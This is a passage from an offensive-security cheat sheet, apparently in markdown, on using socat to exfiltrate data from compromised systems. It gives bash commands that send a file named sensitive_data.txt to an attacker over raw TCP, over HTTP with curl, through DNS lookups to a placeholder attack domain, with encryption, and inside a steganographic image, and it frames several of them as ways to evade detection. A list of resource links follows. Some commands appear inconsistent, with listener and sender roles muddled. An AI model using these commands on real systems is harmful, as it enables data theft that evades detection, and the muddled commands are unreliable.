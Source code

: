     ```

#### Data Exfiltration

SoCat is an excellent tool for exfiltrating data from compromised systems, especially when paired with encryption and tunneling techniques.

1. **Exfiltrating Sensitive Data**: Exfiltrates sensitive data from the target system to the attacker.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"tee exfiltrated_data.txt"
    socat - TCP:<target_ip>:<target_port> < sensitive_data.txt
    ```
2. **Exfiltration Over HTTP**: Exfiltrates data over HTTP to avoid detection.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"curl http://<target_ip>:<target_port>/data -d @sensitive_data.txt"
    socat - TCP:<target_ip>:<target_port> > exfiltrated_data.txt
    ```
3. **DNS Tunneling for Data Exfiltration**: Exfiltrates data using DNS requests, which can often bypass traditional security mechanisms.
    ```bash
    socat UDP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"while read line; do nslookup $line.<attack_domain>; done < sensitive_data.txt"
    ```
4. **Encrypted Data Exfiltration**: Encrypts sensitive data before exfiltration, ensuring that it remains confidential even if intercepted.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"openssl enc -aes-256-cbc -salt -in sensitive_data.txt"
    socat - TCP:<target_ip>:<target_port> > exfiltrated_data.enc
    ```
5. **Steganographic Data Exfiltration**: Embeds sensitive data within an image file using steganography before exfiltrating it.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"steghide embed -cf image.jpg -ef sensitive_data.txt"
    socat - TCP:<target_ip>:<target_port> > exfiltrated_image.jpg
    ```

# Resources

|**Name**|**URL**|
|---|---|
|SoCat Documentation|http://www.dest-unreach.org/socat/doc/socat.html|
|SoCat Usage Examples|https://linux.die.net/man/1/socat|
|SoCat Command Guide|https://www.digitalocean.com/community/tutorials/how-to-use-socat-as-a-proxy-client-and-server|
|Advanced SoCat Techniques|https://null-byte.wonderhowto.com/how-to/socat-swiss-army-knife-hacks-0207835/|
|Reverse Shell Cheatsheet|https://highon.coffee/blog/reverse-shell-cheat-sheet/|
|Tunneling with SoCat|https://resources.infosecinstitute.com/topic/socat-tunneling-and-reverse-shells/|
|Stealth Techniques Using SoCat|https://securitytrails.com/blog/socat-examples|
|Data Exfiltration Techniques|https://www.fireeye.com/blog/threat-research/2019/01/exfiltration-over-alternate-protocols.html|
|SoCat in CTF Challenges|https://ctftime.org/writeups/overview/socat|
|Using SoCat for Pivoting in Complex Networks|https://www.pentestpartners.com/security-blog/pivoting-in-a-complex-network-with-socat/|